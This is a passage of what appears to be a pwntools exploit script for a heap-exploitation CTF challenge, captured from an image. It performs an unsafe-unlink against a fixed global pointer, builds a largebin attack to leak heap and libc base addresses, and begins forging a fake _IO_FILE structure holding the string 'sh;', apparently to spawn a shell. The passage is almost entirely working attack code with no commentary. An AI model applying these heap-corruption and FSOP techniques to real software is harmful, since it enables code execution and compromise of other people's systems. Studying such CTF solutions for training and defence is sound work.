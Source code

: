 ```plain
    sla(b': ',str(index).encode())

def show(index):
    sla(b': ',b'3')
    sla(b': ',str(index).encode())

def edit(index,content):
    sla(b': ',b'4')
    sla(b': ',str(index).encode())
    sla(b': ',content)

target = 0x404060

add(0,0x428,b'aaaa')
add(1,0x4f0,b'aaaa')
add(2,0x410,b'aaaa')

payload = p64(0) + p64(0x421) + p64(target - 0x18) + p64(target - 0x10)
payload = payload.ljust(0x420,b'\x00')
payload += p64(0x420)

edit(0,payload)
delete(1)

edit(0,b'\x00'*0x18 + p64(target - 0x18) + p64(0x4040c0)+p64(0)*10 + p32(0x1000)*10)

add(2,0x520,b'a')
add(3,0x520,b'a')
add(4,0x508,b'a')
add(5,0x510,b'a')
add(6,0x500,b'a')

delete(3)
delete(5)
add(7,0x600,b'a')
add(3,0x520,b'a')

show(3)
ru(b'Content: ')
heap_base = u64(p.recvuntil(b'\n',drop=True).ljust(8,b'\x00')) - 0x1a61
leak("heap_base",heap_base)

add(5,0x510,b'a')
show(5)
libc.address = u64(ru(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x21a161

delete(7)
delete(3)
add(7,0x600,b'a')
edit(1,p32(0x2000)*10)

payload = b'\x00'*0x418 + p64(0x500) + b'\x00'*0x4f8 + p64(0x420) + b'\x00'*0x418
payload += p64(0x531)
payload += p64(0x21a110 + libc.address)*2 + p64(heap_base + 0xfe0) + p64(0x404040-0x20)
edit(2,payload)

delete(5)
add(8,0x600,b'a')

fake_io_addr = heap_base + 0x1a20

fake_IO_struct = b'  sh;\x00\x00\x00' + p64(0x521)              #rdi
fake_IO_struct = fake_IO_struct.ljust(0x74,b'\x00')
```